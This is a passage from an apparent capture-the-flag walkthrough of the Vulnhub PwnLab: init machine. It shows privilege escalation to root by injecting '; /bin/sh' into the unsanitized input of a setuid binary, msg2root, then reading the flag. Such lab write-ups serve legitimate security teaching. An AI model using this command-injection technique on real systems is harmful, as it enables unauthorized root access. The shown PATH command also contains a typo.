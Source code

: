 We get some errors, we’ll ignore that. Now let’s restore the path 

    export PATH=PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games

We can see that we’ve logged into mike, yay. Let’s verify that using `whoami` and `id`

![40](https://github.com/omarMahmood05/Vulnhub---PwnLab---Markup/assets/86721437/c16417ed-fb21-444c-a9b8-ec0fba50c25b)


That is great, now let’s try to escalate to the root.

Let’s explore the system again.

In the `/home/mike` we can see a msg2root file, let’s check the file type again

    msg2root: setuid, setgid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=60bf769f8fbbfd406c047f698b55d2668fae14d3, not stripped

It’s a binary file, let’s print out all the readable strings

    strings msg2root
   
In this line it looks like there is no user input sanitizing, let’s try and execute the command and we’ll try to use command injection.

    /bin/echo %s >> /root/messages.txt

Let's try using `; /bin/sh` 

./msg2root  
Message for root: test; /bin/sh

We get a `#` prompt now.
Let’s verify who we are using whoami 

    #whoami
    root

We’ve now logged into root!
Let’s get the flag!
`cd /root
cat flag.txt`


We get 

     .-=~=-.                                                                 .-=~=-.
    (__  _)-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-(__  _)
    (_ ___)  _____                             _                            (_ ___)
    (__  _) /  __ \                           | |                           (__  _)
    ( _ __) | /  \/ ___  _ __   __ _ _ __ __ _| |_ ___                      ( _ __)
    (__  _) | |    / _ \| '_ \ / _` | '__/ _` | __/ __|                     (__  _)
    (_ ___) | \__/\ (_) | | | | (_| | | | (_| | |_\__ \                     (_ ___)
    (__  _)  \____/\___/|_| |_|\__, |_|  \__,_|\__|___/                     (__  _)
    ( _ __)                     __/ |                                       ( _ __)
    (__  _)                    |___/                                        (__  _)
    (__  _)                                                                 (__  _)
    (_ ___) If  you are  reading this,  means  that you have  break 'init'  (_ ___)
    ( _ __) Pwnlab.  I hope  you enjoyed  and thanks  for  your time doing  ( _ __)
    (__  _) this challenge.                                                 (__  _)
    (_ ___)                                                                 (_ ___)
    ( _ __) Please send me  your  feedback or your  writeup,  I will  love  ( _ __)
    (__  _) reading it                                                      (__  _)
    (__  _)                                                                 (__  _)
    (__  _)                                             For sniferl4bs.com  (__  _)
    ( _ __)                                claor@PwnLab.net - @Chronicoder  ( _ __)
    (__  _)                                                                 (__  _)
    (_ ___)-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-=-._.-(_ ___)
    `-._.-'   

We’ve successfully pwned the pwnlab machine!
